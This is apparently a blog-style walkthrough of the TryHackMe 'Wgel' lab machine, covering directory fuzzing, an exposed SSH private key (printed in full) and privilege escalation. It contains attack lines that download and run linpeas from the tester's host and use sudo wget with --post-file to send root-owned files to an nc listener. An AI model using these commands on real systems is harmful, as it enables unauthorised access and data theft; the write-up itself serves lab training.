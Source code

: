 
Greetings folks ! Today I would like to analyze a simple machine called Wgel on TryHackMe platform. Let me start with embedding our ip address to customized domain `wgel.th` on `/etc/hosts`.

Follow each command respectively:

`nano /etc/hosts`

![[TryHackMe/Wgel/images/1.PNG]]


Test for web application instance:

`curl -v wgel.thm`

![[TryHackMe/Wgel/images/2.PNG]]

As you can see above, it seems like a `web application` running on  port `80`.

Content of the `default web server` configuration page can be seen below:

![[TryHackMe/Wgel/images/3.PNG]]

If you already reached through `HTTP` protocol, no need to force to connect with `HTTPS` because the developer should activate it as extended feature ,so by default it is normal not to connect.

`curl -v wgel.thm:443`

![[TryHackMe/Wgel/images/4.PNG]]


On browser part, we can achieve this request by using through two different ways:

- direct protocol addition
![[TryHackMe/Wgel/images/5.PNG]]

- adding ending part
![[TryHackMe/Wgel/images/6.PNG]]

NOTE: Browsers automatically add the protocol ,so no need to replace `:443`.

![[TryHackMe/Wgel/images/7.PNG]]


Since we are dealing with web application, let me apply fuzzing:

## Reconnaissance

First of all, checking `robots.txt` may reveal useful findings ,but there was not any juicy information about the occurence of the file.

![[TryHackMe/Wgel/images/8.PNG]]

Today I wanted to use `GoBuster` to get faster results compared to `dirb` or `dirsearch`.

**Basic Scope**

`gobuster dir -u http://wgel.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt`

Result:
![[TryHackMe/Wgel/images/9.PNG]]

**Medium Scope**

`gobuster dir -u http://wgel.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

Due to the connectivity issues occured in Bilkent Science A building, I was not able to test entire wordlist. The most identical finding can be seen as `sitemap`.

`/sitemap              (Status: 301) [Size: 306] [--> http://wgel.thm/sitemap/]`

There was a clue about something useful in the `page source`:

![[TryHackMe/Wgel/images/15.PNG]]

It looks like a `username`. Now, switch on deep-dive fuzzing through `/sitemap/` directory. 

**Further Reconnaissance**

`gobuster dir -u http://wgel.thm/sitemap -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt`

![[TryHackMe/Wgel/images/10.PNG]]
Entire endpoints appearing as `default` so that reaching `.ssh` part was the most suitable option on that case.

![[TryHackMe/Wgel/images/11.PNG]]

It might be a `security misconfiguration` since there was not any cases such like in real-world practises :)

`id_rsa` known as private ssh key using for authentication in most SSH sessions. Adversaries who captured such file can connect remote hosts as `unauthorized access`.

Directly paste the RSA private key with using the command below:

`echo "-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
" >> id_rsa`.

After that try to connect ssh session with the help of the `-i` parameter in `SSH client`:

`ssh -i [id_rsa PATH] [TARGET_IP]`

then I forgot the permissions for file ,so I assigned `777` for the file ,but it gave me an error indicating the permissions were too open:

![[TryHackMe/Wgel/images/13.PNG]]

It should be `600` according to [stackexchange](https://unix.stackexchange.com/questions/257590/ssh-key-permissions-chmod-settings):

![[TryHackMe/Wgel/images/14.PNG]]

`chmod 600 id_rsa` will be enought to assign permissions for the file called `id_rsa`

![[TryHackMe/Wgel/images/16.PNG]]
We are done with recon ! ! !

Reach `user flag` with one-liner:

`cd Documents; cat user_flag.txt`

## Exploitation

As usual, due to the `OSCP` preparation, I always use manual way to pass privilege escalation.

Start with `sudo -l` to understand the commands that the user can run.
![[TryHackMe/Wgel/images/17.PNG]]

Direct OS enumeration is possible via `linpeas`:

reach the source file of [linpeas](https://linpeas.sh/)

![[TryHackMe/Wgel/images/18.PNG]]

Deploy local web server:
`python3 -m http.server 1984`

One-liner to run `linpeas`:

`wget http://10.11.69.113:1984/linpeas.sh; chmod +x linpeas.sh; ./linpeas.sh`

![[TryHackMe/Wgel/images/19.PNG]]

I tried 3 commands at once so as to pass each steps and reduce the time after execution of the `linpeas`.

![[TryHackMe/Wgel/images/20.PNG]]
![[TryHackMe/Wgel/images/21.PNG]]![[TryHackMe/Wgel/images/22.PNG]]

We should find a way to download a reverse shell & located on `root` path & executed.

![[TryHackMe/Wgel/images/24.PNG]]

![[TryHackMe/Wgel/images/25.PNG]]

It did not work because I was not running it on  any `privileged` paths or somewhere:

After a couple of research I found a useful [resource](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/) about `wget` privilege escalation through `POST` method:

Observe that the approach is completely similar to mine:

![[TryHackMe/Wgel/images/23.PNG]]

What if I try to capture the `root` flag instead of `shadow` and `passwd` files ? I tried to capture the `root.txt` file ,but it is frequently located on `root` path ,so let's try this approach:

To capture `POST` requests:

`nc -lvnp 1111`

Run the command as above:

Since I saw the `user flag` name as `user_flag` pattern, I thought that what exactly happens if we  replace the `user` pattern as `root` :

`sudo wget /usr/bin/wget --post-file=/root/root_flag.txt 10.11.69.113` 

I got it ! ! !

In the first attempt, I did not give specific port the correct way should be likely this:

`sudo wget /usr/bin/wget --post-file=/root/root_flag.txt 10.11.69.113:1111`

![[TryHackMe/Wgel/images/26.PNG]]


May The Pentest Be With You  ! ! !

![[27.jpg]]